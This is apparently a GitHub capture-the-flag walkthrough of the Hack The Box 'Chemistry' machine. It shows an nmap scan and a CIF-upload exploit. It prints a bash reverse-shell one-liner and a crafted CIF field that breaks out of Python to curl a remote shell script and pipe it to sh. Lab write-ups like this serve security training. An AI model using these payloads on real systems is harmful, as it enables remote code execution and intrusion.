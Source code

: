 # -HTB-Chemistry


### I start with nmap scan

```
nmap -p- -sVC 10.10.11.38 -oN nmap_scan --min-rate 5000 -vv
```

<img width="1392" height="472" alt="image" src="https://github.com/user-attachments/assets/26c7ac9b-4191-4792-bca9-76f0361fd7e7" />


### I make an account on the site and we can see he want us to upload a .cif file 


<img width="1500" height="595" alt="image" src="https://github.com/user-attachments/assets/0a6ad506-a2f1-4b07-95d5-ecf89a4951a6" />


### If we search on google we can see an exploit for cif upload file 

<img width="1284" height="475" alt="image" src="https://github.com/user-attachments/assets/6a59005d-43fc-48a3-abb2-ab239c6ecce6" />


<img width="999" height="427" alt="image" src="https://github.com/user-attachments/assets/f99b98ee-d62c-4f4b-a350-e188c7c92b9a" />

```
https://github.com/advisories/GHSA-vgv8-5cpj-qj2f
```

### I modify the file so the payload to curl on our server and download a shell file with :
### shell
```
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.25/1337 0>&1"
```
----

```
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("curl http://10.10.14.25/shell.sh|sh");0,0,0'
```


### And we uplade the cif file and press view 



<img width="1373" height="563" alt="image" src="https://github.com/user-attachments/assets/70caa5b7-1840-4304-acb6-f2d78b6d03dd" />


### And we get shell as "app"
